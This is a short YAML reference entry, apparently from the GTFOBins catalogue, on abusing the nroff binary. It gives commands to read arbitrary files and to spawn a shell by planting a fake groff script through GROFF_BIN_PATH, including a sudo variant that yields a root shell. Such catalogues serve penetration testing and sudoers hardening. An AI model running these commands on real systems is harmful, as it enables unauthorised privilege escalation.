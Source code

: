 ```yaml
---
functions:
  file-read:
    - description: The read file content is corrupted by arbitrary newlines.
      code: |
        LFILE=file_to_read
        nroff $LFILE
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/groff
        echo '/bin/sh' >> $TF/groff
        chmod +x $TF/groff
        GROFF_BIN_PATH=$TF nroff
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/groff
        echo '/bin/sh' >> $TF/groff
        chmod +x $TF/groff
        sudo GROFF_BIN_PATH=$TF nroff
---
```

